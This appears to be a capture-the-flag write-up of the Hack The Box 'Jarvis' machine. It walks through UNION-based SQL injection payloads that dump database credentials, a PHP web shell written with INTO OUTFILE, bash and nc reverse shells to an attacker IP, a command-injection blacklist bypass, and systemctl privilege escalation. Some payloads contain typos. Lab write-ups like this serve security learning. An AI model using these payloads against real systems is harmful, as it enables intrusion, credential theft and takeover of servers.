





## Reconnaissance

### nmap 

```
nmap -sC -sV -oN jarvis_light 10.129.229.137
```


```
nmap -T4 -p- -sV -oN jarvis_light 10.129.229.137
```

### Web Service 

> Browse to the target service 
> Check Home Page 
> In the right top, this site domain is supersecurehotel.htb
> Add it to /etc/hosts


> /rooms-suties.php


> Click arbitrary room
> it will direct to /room.php
> Here is a parameter 'code' will show the corresponding room


> Check /dining-bar.php


> According to the nmap all port scan result
> Here is another service on port 64999
> Access it, but it only show the following message 


### Gobuster 
```
gobuster dir -u http://supersecurehotel.htb/ -w /usr/share/wordlists/dirb/common.txt -o jarvis.out
```


> With gobuster result, there is a /phpmyamin site
> Access it and try the common credential 

1. root / toor 


> Common credential will failed 


### Burp Intercept

> Confirm the content in burp 
> Check /index.php
> The interesting part is the response header,
> There is an uncommon header - IronWAF 2.0.3 


> Search IronWAF
> But it doesn't find any exploit code
> Even I used searchsploit, it also doesn't provide anything


```
searchsploit IronWAF
```

## Exploit 
### Enumerate WebService 

> So, back to the previous parameter 'code' in /room.php


> Change the code value, it will show different room


> This parameter use for query different room
> So, it might have SQL injection 
> I tried to add quote (') and the response doesn't cause error, it just response empty result.
> It might have SQLi vulnerability


> Try the following payload 
> It doesn't reply any things, 
> I think the sql injection still affect the query but I haven't find the correct payload

```
2'OR%201=1--%20-
```


> I started to aim on UNION based SQL injection.
> Follow the cheat sheet below 

[(HackTricks) SQL Injection Cheat Sheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)


> First, I have to confirm the number of columns
> So, I tried the Order by query string.

```
2'%20Order%20By%201--%20-
```


> The first one didn't show anything, 
> it's weired, since if there is really a SQL injection it should have at least 1 column.
> But the Order By Query doesn't show anything.
> I keep try to test 2 columns, it still not worked.

```
2'%20Order%20By%202--%20-
```


> I started to change my payload after I read some query payload and query strings 
> Some query strings will end with ';'.
> So, I tried the following payload, it still failed
```
2'%20Order%20By%201;--%20-
```


> Then I tried to stop both of the original query string and my payload with ';'.
> It still failed

```
2';%20Order%20By%201;--%20-
```


> Since I'm not sure what's the original query string looks like.
> So maybe the original one doesn't use where clause to handle the cod value (in here is 2).
> according to previous test and research below, the UNION query or ORDER By query don't contain single quote (') 

- [SQL UNION Operator](https://www.w3schools.com/sql/sql_union.asp)
- [SQL ORDER BY Keyword](https://www.w3schools.com/sql/sql_orderby.asp)

```
2%20Order%20By%201;--%20-
```


> Change the ORDER BY query to  UNION SELECT payload in Burp Repeater
> I also used UNION SELECT string to confirm the numbers of column

```
2'%20UNION%20SELECT%201--%20-
```


> Add the column 1 by 1
```
2'%20UNION%20SELECT%201,2--%20-
```


> Like previous testing, if the payload include the single quote (') between the first number and the real payload
> Then the SQL injection will not work.
> So even I add it to the 7, it still won't work

```
2'%20UNION%20SELECT%201,2,3,4,5,6,7--%20-
```


> Follow the above test, I remove the single quote and try again, it success to get the result on 7 columns 

```
2%20UNION%20SELECT%201,2,3,4,5,6,7--%20-
```


> So, I confirmed the UNION SELECT will  work.
> Next, I need to find out which column can be used to show the message.
> since there are data in the code value before 6, so I directly change the value over 100 and try the payload again

```
100%20UNION%20SELECT%201,2,3,4,5,6,7--%20-
```

> It will shows that column 2, 3, 4, 5 will display.
> Then, I compared to the normal data, 
> The column 3 will show the price, column 5 will show the start (might be image)
> And only column 2 and 4 will show the message, maybe is strings.
> So, I will use these 2 columns to try other payload.


### UNION Based SQL Injection 

> First, I need to confirm the DB schma 
> Following this cheat sheet.
- [(HackTricks) SQL Injection Cheat Sheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)


```
100%20UNION%20SELECT%201,group_concat(schema_name),3,4,5,6,7%20From%20information_schema.schemata;--%20-
```
> Like the following image, there are 4 schema

1. hotel
2. Informaition_schema
3. mysql
4. performance_schema
> According to the past experience, I should check hotel and mysql first.


> Check the tables in hotel.

```
100%20UNION%20SELECT%201,group_concat(table_name),3,4,5,6,7%20From%20information_schema.tables%20WHERE%20table_schema=%27hotel%27;--%20-
```
> As follow image, there is only 1 table

- room


> I checked the column in table room

```
100%20UNION%20SELECT%201,group_concat(column_name),3,4,5,6,7%20From%20information_schema.columns%20WHERE%20table_name=%27room%27;--%20-
```
> There is nothing helpful information for me in this table.


> I changed to aim the target on schema 'mysql'

```
100%20UNION%20SELECT%201,group_concat(table_name),3,4,5,6,7%20From%20information_schema.tables%20WHERE%20table_schema=%27mysql%27;--%20-
```
> The result in browser can't show the whole table name


> I checked in burp still can view all the tables



> I changed back to pretty tab, then all the table names can be viewed.
> I  checked 'user' table first
 


> The following payload will check all the columns in user table

```
100%20UNION%20SELECT%201,group_concat(column_name),3,4,5,6,7%20From%20information_schema.columns%20WHERE%20table_name=%27user%27;--%20-
```


> Like previous one, the browser page can't show all the column names
> Changing to burp's pretty tab
> I know there are 2 columns make me interesting.
1. User
2. Password


> So, I used the following payload 

```
100%20UNION%20SELECT%201,group_concat(User,0x7c,Password),3,4,5,6,7%20From%20user;--%20-
```


> I got the credential (maybe it works for phpmyadmin page)

```
DBadmin | 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

> I used the following 2 method  to check the hash type

1. [Online site](https://www.tunnelsup.com/hash-analyzer/) 


2. hashid 


> The above 2 methods have common result : SHA-1 
> So I used hashcat and john to crack it, but all of them are failed.


> Since I can't crack this hash, I start to find out other method.
> Back to check user table's column, here are some columns which end with _priv,  I think it is worth to check

- Select_priv
- Insert_priv
- Update_priv
- Delete_priv
- Create_priv
- Drop_priv
- Reload_priv
- Shutdown_priv
- Process_priv
- File_priv
- Grant_priv
- References_priv
- Index_priv
- Alter_priv
- Show_db_priv
- Super_priv


> Research as follow 

- [mysql.user Table](https://mariadb.com/kb/en/mysql-user-table/)
)


> The file_priv description as below: 
> Read and write files on the server, using statements like [LOAD DATA INFILE](https://mariadb.com/kb/en/load-data-infile/) or functions like [LOAD_FILE()](https://mariadb.com/kb/en/load_file/). Also needed to create [CONNECT](https://mariadb.com/kb/en/connect/) outward tables. MariaDB server must have permission to access those files.


> The other research in here
- [mysql file_priv mysql file_priv权限)](https://blog.51cto.com/u_16099355/7165782)


> If this value is 'Y', I think it's able to read or write a file to server .
> I confirm the column by this payload 

```
100%20UNION%20SELECT%201,group_concat(User,0x7c,file_priv),3,4,5,6,7%20From%20user;--%20-
```


- Then I start to research how to write a file by sql injection payload 
- [高权限下的Mysql利用总结)](https://forum.90sec.com/t/topic/1728)


> In above article, maybe it's possible to use select .. into outfile
> Generating file which name is shell.php with content 


```
<?php system($_GET['test')); ?>
```

> Payload:
```
100%20UNION%20SELECT%201,"<?php system($_GET['test')); ?>",3,4,5,6,7%20INTO%OUTFILE%20'/var/www/html/shell.php';--%20-
```


> Payload 2:
```
100%20UNION%20SELECT%201,"<?php echo system($_GET['test')); ?>",3,4,5,6,7%20INTO%OUTFILE%20'/var/www/html/shell2.php';--%20-
```



> The above 2 payload all can work.
> Here is the step to execute the shell

```
/shell.php?test=bash+%2dc+'bash+%2di+%3e%26+/dev/tcp/10.10.17.145/1337+0%3e%261'
```


## Privilege Escalation - user 

> After getting into server, I confirm the current user first.

```
id
whoami
```


> Enumerate the machine, find a file connection.php
> Now, I know the credential for DBadmin

```
DBadmin / imissyou
```


> Using this credential to login -> success


> Checking the sudo permission list 
> It shows the user pepper can execute the file simpler.py without password

```
sudo -l
```


> I checked the content of simpler.py


> Here is a interesting function - exec_ping()
> I think it will try to ping the IP address which is identified as attacker one.
> And there is also a forbidden list for this command execute function 


> Then I need to find a way to use this function to execute other command and bypass the forbidden list.

- [(PayloadsALLTheThing)Command Injection)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md)

> Most of the chaining method in below are in forbidden list.


> But the inside a command methods are not in forbidden list.
> So I can use this .


> I create a reverse shell 

```
echo "nc -e /bin/bash 10.10.17.145 1338" >> /tmp/rev.sh
```


> I tried the following step 

```
python simpler.py -p
'$(bash /tmp/rev.sh)'
```


> I checked the nc listener, it will get reverse shell.


> I also check the ip address to double confirm I get into the target machine.


> But when I check the current user, unfortunately, I still is www-data



> Research for about changing user to execute command in linux 

- [Switching user using sudo)](https://researchhubs.com/post/computing/linux-cmd/sudo-command.html)


- [How to Switch Users in Linux Terminal)](https://beebom.com/how-switch-users-linux/)


> According to sudo permission list, I need to use pepper's credential to execute the python file.
> Using the following command to execute the simpler.py

```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
```
$(bash /tmp/rev.sh)
```


> I check the nc listener, it will get the reverse shell back 


> I also confirm the current user 

```
id
whoami
```


> Then I checked user flag.


## Privilege Escalation  - root 

> Next, I need to find a way to escalate to root user 
> So, I upload linpeas.sh to machine and execute it.


> Cleaned process list 


> Cron jobs


> Active service port


> Useful software 


> MariaDB files


> SUID software 
> In the result, I tried to research more about systemctl .

```
find / -perm -u=s 2>/dev/null
```


- [(GTFObins)systemctl)](https://gtfobins.github.io/gtfobins/systemctl/)


> I follow the instruction to create a hack service 

```
echo "[Service)
Type=oneshot
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.17.145 1336'
[Install)
WantedBy=multi-user.target" > hack4.service
```
> Execute the following command 

```
systemctl link /home/pepper/hack4.service
systemctl start hack4
```


> I checked nc listener


> I confirmed the current user 

```
id 
whoami
```


> Get root flag

)


## Reference 

### Write up 

- [HTB: Jarvis)](https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html)
- [Hack The Box – Jarvis Walkthrough)](https://steflan-security.com/hack-the-box-jarvis-walkthrough/)
- [HTB靶场记录之Jarvis)](https://zhuanlan.zhihu.com/p/434823412)

### SQL 

- [SQL UNION Operator)](https://www.w3schools.com/sql/sql_union.asp)
- [SQL ORDER BY Keyword)](https://www.w3schools.com/sql/sql_orderby.asp)
### SQL injection 

- [(HackTricks) SQL Injection Cheat Sheet)](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [SQL Injection Cheat Sheet)](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [(Burp)SQL injection cheat sheet)](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [(Burp)UNION Based)](https://portswigger.net/web-security/sql-injection/union-attacks)
- [(PentestMonkey)MySQL SQL Injection Cheat Sheet)](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- [(OWASP)SQL Injection Prevention Cheat Sheet)](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQL Injection Workshop)](https://www.computersecuritystudent.com/SECURITY_TOOLS/SQL_INJECTION/lesson10/index.html)
- [mysql.user Table)](https://mariadb.com/kb/en/mysql-user-table/)
-  [mysql file_priv mysql file_priv权限)](https://blog.51cto.com/u_16099355/7165782)
- [Reading and Writing Files)](https://sqlwiki.netspi.com/attackQueries/readingAndWritingFiles/#mysql)
- [高权限下的Mysql利用总结)](https://forum.90sec.com/t/topic/1728)
- [6.1.4 Security-Related mysqld Options and Variables)](https://dev.mysql.com/doc/refman/8.0/en/security-options.html)
- [SELECT INTO OUTFILE)](https://mariadb.com/kb/en/select-into-outfile/)
- [(HackTricks)MySQL File priv to SSRF/RCE)](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection/mysql-ssrf)
### Command injection Bypass

- [(PayloadsALLTheThing)Command Injection)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md)
- [Blacklist Bypass)](https://www.ctfnote.com/web/os-command-injection/blacklist-bypass)
### Linux command 

- [Switching user using sudo)](https://researchhubs.com/post/computing/linux-cmd/sudo-command.html)
- [How to Switch Users in Linux Terminal)](https://beebom.com/how-switch-users-linux/)

### hash type 

- [Online site)](https://www.tunnelsup.com/hash-analyzer/)
- [(hashcat official) help to identify hash type)](https://hashcat.net/forum/thread-10517.html)
### Privilege 

- [(GTFObins)systemctl)](https://gtfobins.github.io/gtfobins/systemctl/)
- [Python Privilege Escalation)](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/)

###### tags: `HackTheBox` `SQL injection` `UNION Based SQLInjection`  `phpmyadmin` `Command injection` `Commmand injection bypass` `Privilege escalation by systemctl` `systemctl`